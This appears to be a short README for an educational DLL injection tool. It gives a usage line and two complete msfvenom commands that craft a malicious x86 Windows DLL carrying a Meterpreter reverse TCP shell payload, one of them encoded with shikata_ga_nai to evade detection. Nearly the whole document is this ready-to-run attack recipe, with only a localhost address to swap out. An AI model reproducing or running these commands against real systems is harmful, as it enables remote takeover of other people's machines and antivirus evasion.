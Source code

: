 # DLL-Injection
simple DLL Injection; made for educational purposes<br>
<br> Usage: injection.cpp \<PID\> \<DLLPath\>
### crafiting a x86 malicious DLL with sgnx86 enconding
> msfvenom -p windows/meterpreter/reverse_tcp lhost=127.0.0.1 lport=443 -a x86 --platform windows -b '\x00' -e x86/shikata_ga_nai -f dll -o dll_sgnx86.dll<br>
<br>![alt text](https://i.imgur.com/K7wLZmC.png)

### crafiting a x86 malicious DLL without enconding
> msfvenom -p windows/meterpreter/reverse_tcp lhost=127.0.0.1 lport=443 -a x86 --platform windows -f dll -o dll_x86.dll<br>
<br>![alt text](https://i.imgur.com/DN81LZr.png)
